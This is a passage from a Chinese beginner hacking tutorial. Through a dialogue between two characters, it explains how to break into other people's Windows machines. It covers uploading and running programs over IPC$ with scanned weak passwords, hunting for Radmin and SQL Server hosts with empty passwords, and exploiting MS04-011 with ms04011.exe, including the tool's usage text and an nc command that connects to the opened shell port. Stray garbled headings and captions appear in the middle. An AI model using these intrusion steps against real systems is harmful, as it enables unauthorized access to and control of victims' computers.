

图 1.36

单个主机的“定点扫描”会在左下方显示出扫描的结果，如图 1.37。



图 1.37

而批量的扫描则会在右边的“端口扫描信息列表”里显示出来，如图 1.38。



图 1.38

它的扫描速度丝毫不亚于其他的专业端口扫描工具，当然了，它最大的特点都集中在了入侵常用工具一栏，如图 1.39。



图 1.39

还记得我们在前面使用 WinNT/2000 自动攻击探测机发现的 NT 弱口令吧，这个时候我们就可以利用它了！单击“IPC 漏洞种植”就可以打开 NT 弱口令的利用工具了，在主机一栏输入对方的 IP 地址，用户名及密码栏输入扫描到的账号及口令（如果口令为空可以不输），在中间的本地文件栏找到要上传的文件，复制位置为上传到对方电脑的位置（Admin$ 为对方的 winnt 目录），启动命令栏为上传后运行的程序名，这两个选项在选择好要上传的文件后会自动填写好，如图 1.40。最后点击“开始”就可以了。



图 1.40

如果对方还打开了 3389（终端服务）的话，我们还可以直接单击“连接 3389”，就会打开一个 3389 连接器（Windows 2000 不自带 3389 连接工具），填入用户名与密码就可以进入对方的电脑了。

“4899 过滤器”是专门用来寻找 4899 空口令的，在弹出“4899 探测器”菜单中只需要设置好开始与结束的 IP 地址，单击“开始搜索”就行了，如图 1.41。



图 1.41

如果我们找到 4899 空口令肉鸡的话，单击“连接 4899”就会打开 Radmin 进行连接。“连接 1433”则会启动 SQL Server 连接器，它们的使用同前面讲过的基本相似。另外，这个工具还有些比如数据库工具、MD5 破解、上传入侵、连入入侵等功能，对于菜鸟们学习来说，这真的是一款不错的工具。

## 第一届万米划翔

图像直接即时沉浸溢出体验








## 第二章 刀光剑影

——最直接的远程溢出攻击

### 2.1 经典远程溢出漏洞入侵

啊剑剑：“弱口令原来是这么被使用的呀，好简单！”说完，就在那儿自己扫描起来，不一会儿，啊剑剑就玩腻了弱口令的入侵：“弱口令不大好找了，我花了这么长时间才找到几个，还有好几个都不成功。是怎么回事呀？”

欠钱：“那可能是你找到的是 WinXP 系统，这年头使用 Win2000 的个人电脑已经越来越少了，再加上弱口令这个问题几年前就被说过了，现在公众的安全意识比起以前提高了许多，弱口令当然很少了呀！”

啊剑剑：“那除了弱口令外还有没有更好的入侵方法呢？”

欠钱：“方法当然是有的，下边我就来给你讲讲真正的黑客是如何入侵的——利用远程溢出漏洞。这可是目前非常流行的一种方法。溢出从技术角度可以分为堆溢出和栈溢出，这一点我们暂不讨论，我们从另一个角度来看，则一般分为远程（remote）溢出和本地（local）溢出。所谓远程溢出也就是通过对方的一些网络上的服务（比如网上邻居、IIS 之类的服务）对我们提交的数据没有严格的检查。我们提交一些精心构造的数据，可以迫使对方的主机执行我们指定的动作：比如添加用户、打开端口、反弹一个 shell 给我们等等……这种漏洞一般来说菜鸟们是最喜欢的，因为只要找到存在远程溢出漏洞的电脑，使用一个溢出工具就可以很容易地入侵到对方主机内部！”

啊剑剑兴奋地说：“还是这个好，我喜欢！你快点儿教教我吧！”

欠钱：“关于远程溢出漏洞有许多，像 Unicode 漏洞、.Printer 漏洞、ida&idq 漏洞、asp 漏洞、webdav 漏洞、Messenger 漏洞、Workstation 漏洞等都是以前非常经典的远程溢出漏洞，风光一时。可是随着微软新系统 Win2003 的使用越来越多，以及绝大多数的系统会打上最新的服务包 SP*，或者单个的补丁程序，这些曾经的经典漏洞都成了古董，再讲它们就没有必要了，因为这些老洞在网上估计很难再找出几个了，因此我们以最近一两年比较流行的远程溢出漏洞为例！”

#### 2.1.1 MS04-011 远程溢出漏洞

MS04-011 漏洞是微软于 04 年 4 月公布的一个非常严重的安全漏洞，虽然也得算是一个“老”洞了，不过在许多局域网（网吧、校园网、公司内部网络）中还是广泛存在该漏洞的。

如何寻找存在该洞的电脑呢？不必使用 X-scan3.3，因为 MS04-011 漏洞有专用的扫描工具 DSScan1.0。运行后在左上角的 IP 范围设置处，将欲扫描的起止 IP 分别填入 Start IP 与 End IP，单击右边那个箭头将其加入扫描列表。在中间的各个选项处依实际情况选择一下，单击中间靠右的那个蓝色箭头就开始扫描了，如图 2.1。



图 2.1

有几个地方给英文不好的朋友解释一下：Resolve IP addresses to hostnames 是将 IP 地址解析为主机名，Show both vulnerable and not vulnerable systems 是无论是否可溢出都显示出来。Randomize scan order 是使用随机扫描顺序，Send message to vulnerable systems 是向可被溢出的机器发送消息，后面有个输入框是可自定义消息内容的。

图中我们发现 192.168.1.102 是可溢出的（vulnerable）。那么我们就不客气了，现在就动手！首先使用 getos.exe 判断对方系统。使用的方法很简单：getos 192.168.1.102，如图 2.2。



图 2.2

Windows 5.0 表明对方是 Windows 2000 的系统（5.1 是 Windows XP 系统，5.2 是 Windows 2003 系统）。我们使用的是 ms04011.exe，输入 ms04011 不加任何参数得到帮助信息，如图 2.3。

```
F:\My Documents>\nbuffer\ms04011\nWindows Lsasrv.dll RPC (ms04011) buffer overflow Remote Exploit\n...\nUsage:\nms04011 0 targetip (Port ConnectBackIP) ---> attack 2k\nms04011 1 targetip (Port connectBackIP) ---> attack xp (sp1)\nms04011 2 targetip (Port connectBackIP) ---> attack xp (sp0)
```



图 2.3

- ms04011 0 目标主机 IP（监听端口 监听 IP）——> 2000 系统
- ms04011 1 目标主机 IP（监听端口 监听 IP）——> XP 系统 sp1
- ms04011 2 目标主机 IP（监听端口 监听 IP）——> XP 系统 sp0

现在知道为什么刚才要判断对方的系统了吧？这里溢出是有两种方法的，一是直接溢出，溢出成功后，会在肉鸡上打开一个端口并连接上去，我们可以直接使用：ms04011 0 192.168.1.102。如果成功的话，就会打开对方的 1234 端口，然后我们使用瑞士军刀 nc.exe，输入命令：nc -vv 192.168.1.102 1234，如图 2.4。

